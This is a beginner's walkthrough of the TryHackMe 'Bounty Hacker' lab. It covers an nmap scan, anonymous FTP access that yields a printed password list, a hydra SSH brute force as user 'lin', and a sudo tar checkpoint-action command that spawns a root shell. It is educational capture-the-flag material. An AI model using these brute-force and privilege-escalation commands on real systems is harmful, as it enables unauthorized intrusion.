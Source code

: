 # TryHackMe | Bounty Hacker

[Bounty Hacker](https://tryhackme.com/room/cowboyhacker)

## Deploy the Machine

The instructions are pretty clear for this one. SMASH THAT GREEN BUTTON!!!

## Find open ports on the machine

We will use nmap to do a quick scan of the machine for open ports.

```bash
❯ nmap -sV $IP
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

## Who wrote the task list?

To find out who wrote it, we first have to find the task list itself. Let's check the hint for this task, which is "Have you visited FTP?". First let's check if anonymous login is enabled for ftp. Yes it is. Great, now we can copy over the text files we find to our system using the get command.

```bash
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp>

```

Now let's see the contents of the task.txt.

```bash
❯ cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

```

We can see that the rather surreal sounding tasks have been written by "lin". This may potentially be a username that can be used later.

Let's look into locks.txt now. Looks like it is a list of passwords. It'll come in handy while brute-forcing the password.

```bash
❯ cat locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e

```

## What service can you bruteforce with the text file found?

Now let's take a look at the hint for the next task. "What is on port 22?". SSH.

Let's brute force the ssh port using hydra. We use lin as the username and the retrieved locks.txt as our wordlist.

```bash
❯ hydra -l lin -P locks.txt $IP ssh
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[22][ssh] host: 10.10.246.11   login: lin   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found

```

Okay, we have the password now. Let's try to ssh into the machine using these credentials.

![hacker-voice-im-in-9461453.png](images/hacker-voice-im-in-9461453.png)

Lets look around the system for a bit. On checking the home directory, we find the user.txt. Well, that was easy.

```bash
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
[DATA EXPUNGED]

```

Now to find root.txt, we have to escalate our privileges and gain root access to the system. To get started, we type sudo -l to see what commands our current user can run as root.

```bash
lin@bountyhacker:~/Desktop$ sudo -l
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```

As we can see, lin can run /bin/tar as root. Lets head over to [GTFOBins](https://gtfobins.github.io/) and look for an exploit for this binary that can help us break out and gain a root shell. On searching for tar on the site, we get the following command.

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Lets pop that into the shell and see what happens. Hmm, it seems we have successfully gained root access.

Now we use the find command to locate root.txt.

```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/` from member names
# whoami
root
# find / -name "root.txt" 2>/dev/null
/root/root.txt
# cat /root/root.txt
[DATA EXPUNGED]

```

So there you have it. We have finally completed the room. This was an easy room, so beginners like me shouldn't have much problems with it. If you couldn't do it by yourself though, don't lose hope, the path is full of learning opportunities. Hope you learned something new today. Adios.
